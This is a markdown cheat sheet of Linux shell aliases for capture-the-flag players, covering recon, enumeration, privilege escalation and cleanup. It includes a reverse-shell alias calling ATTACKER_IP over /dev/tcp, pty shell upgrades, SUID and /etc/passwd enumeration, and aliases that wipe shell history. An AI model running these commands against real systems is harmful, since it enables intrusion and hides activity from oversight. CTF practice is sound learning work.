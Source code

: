 ```yaml
---
tags:
  - "#github"
  - "#type/template"
  - "#markdown"
  - "#notes"
  - "#network-security"
  - "#linux-hardware"
  - "#ctf"
  - "#kali-linux"
  - "#shell-aliases"
  - "#programming"
  - "#python"
  - "#learning"
  - "#shell-scripting"
description:
author:
created: Sunday, June 29th 2025, 12:31:31 am
source:
title: 🧠 CTF Linux Shell Aliases
date modified: Sunday, June 29th 2025, 12:43:38 am
---
```


Here’s a comprehensive list of **Linux shell aliases** tailored for CTF (Capture The Flag) players, especially those working in **Kali Linux** or **Parrot OS** environments. These aliases are meant to **speed up reconnaissance, enumeration, exploitation, privilege escalation, and cleanup** tasks.

---

# CTF Linux Shell Aliases

You can place these in your `.bashrc`, `.zshrc`, or a dedicated file like `~/.ctf_aliases` and source it:

```bash
source ~/.ctf_aliases
```

---

## 🔎 Recon & Enumeration

```bash
alias ports='netstat -tuln | grep LISTEN'
alias ipinfo='ip a && ip r'
alias myip='curl -s ifconfig.me'
alias whatweb='whatweb -v'
alias nmapf='nmap -sC -sV -T4 -oN nmap_full'
alias nmapq='nmap -sS -T4 -p- --min-rate=1000'
alias nmapudp='nmap -sU -T4 -p- --min-rate=1000'
alias gobusterd='gobuster dir -u http://TARGET -w /usr/share/wordlists/dirb/common.txt'
alias gobusters='gobuster dns -d DOMAIN -w /usr/share/wordlists/dns/namelist.txt'
alias ffufd='ffuf -u http://TARGET/FUZZ -w /usr/share/wordlists/dirb/common.txt -mc 200'
alias waf='wafw00f http://TARGET'
alias header='curl -I http://TARGET'
```

---

## 📁 File Operations

```bash
alias l='ls -lh --color=auto'
alias la='ls -lah --color=auto'
alias ..='cd ..'
alias ...='cd ../..'
alias extract='dtrx'
alias getflag='find / -name flag\* 2>/dev/null'
alias getperm='find / -perm -4000 2>/dev/null'
```

---

## 🧱 Web & HTTP

```bash
alias serve='python3 -m http.server 8000'
alias phpserve='php -S 0.0.0.0:8000'
alias httplog='sudo tcpdump -A -i any port 80 or port 443'
alias burp='java -jar ~/tools/burpsuite.jar'
alias curlpost='curl -X POST -d'
alias ua='curl -A "Mozilla/5.0"'
```

---

## 🧰 Exploitation & Scripting

```bash
alias pwncat='rlwrap nc -lvnp'
alias revip='ip a | grep -E "inet\s"'
alias revsh='bash -i >& /dev/tcp/ATTACKER_IP/PORT 0>&1'
alias shellz='python3 -c "import pty; pty.spawn(\'/bin/bash\')"'
alias upgrade='python3 -c "import pty; pty.spawn(\"/bin/bash\")"' # After running, manually type: export TERM=xterm
alias suidbin='find / -perm -4000 -type f 2>/dev/null'
alias linpeas='./linpeas.sh | tee linpeas.log'
```

---

## 📈 Privilege Escalation

```bash
alias checkperm='find / -type f \( -perm -4000 -o -perm -2000 \) 2>/dev/null'
alias pshell='python3 -c "import pty;pty.spawn(\'/bin/bash\')"'
alias suidlist='find / -type f -perm -04000 -ls 2>/dev/null'
alias gtfo='xdg-open https://gtfobins.github.io'
alias sudoers='sudo -l'
alias chkcron='ls -la /etc/cron*'
alias chkpasswd='cat /etc/passwd | grep sh$'
```

---

## 🛜 Network Utilities

```bash
alias myports='ss -tulwn'
alias sniff='sudo tcpdump -i any -nn'
alias scanlive='for ip in $(seq 1 254); do ping -c1 192.168.1.$ip | grep "64 bytes"; done'
alias dnslookup='dig +short'
alias whoisall='whois $(whoami)@$(hostname)'
```

---

## 🔧 Automation & Tools

```bash
alias autorev='searchsploit $(file target | cut -d ":" -f2)'
alias httpx='cat urls.txt | httpx -title -status -tech-detect -favicon'
alias amassenum='amass enum -passive -d DOMAIN'
alias subfinder='subfinder -d DOMAIN -silent'
```

---

## 🧼 Cleanup

```bash
alias cleanup='history -c && history -w && rm -f ~/.bash_history'
alias killpy='pkill -f python3'
alias clearlogs='> ~/.bash_history && history -c && unset HISTFILE'
```

---

## 🧪 Dev & Script Shortcuts

```bash
alias py='python3'
alias ipy='ipython'
alias e='nano'
alias p='ping'
alias c='clear'
alias gs='git status'
alias gd='git diff'
```

---

## 📂 Custom CTF Folder Management

```bash
alias ctftemp='mkdir -p ~/ctf && cd ~/ctf'
alias bandit='ssh bandit0@bandit.labs.overthewire.org -p 2220'
```

---

## 📜 Load These Aliases

To make these aliases persistent:

### 1. Save to `.ctf_aliases`

```bash
nano ~/.ctf_aliases
```

Paste the list you want. Then add this line to your `.bashrc` or `.zshrc`:

```bash
[ -f ~/.ctf_aliases ] && source ~/.ctf_aliases
```

### 2. Reload Shell

```bash
source ~/.bashrc
# or
source ~/.zshrc
```

---

## 🔍 References & Further Learning

- [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
    
- [GTFOBins](https://gtfobins.github.io/)
    
- [HackTricks](https://book.hacktricks.xyz/)
    
- [LinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS)
    
- [awesome-ctf](https://github.com/apsdehal/awesome-ctf)
    
- [exploit-database](https://www.exploit-db.com/)
    
- [revshells.com](https://www.revshells.com/) (great reverse shell generator)

---
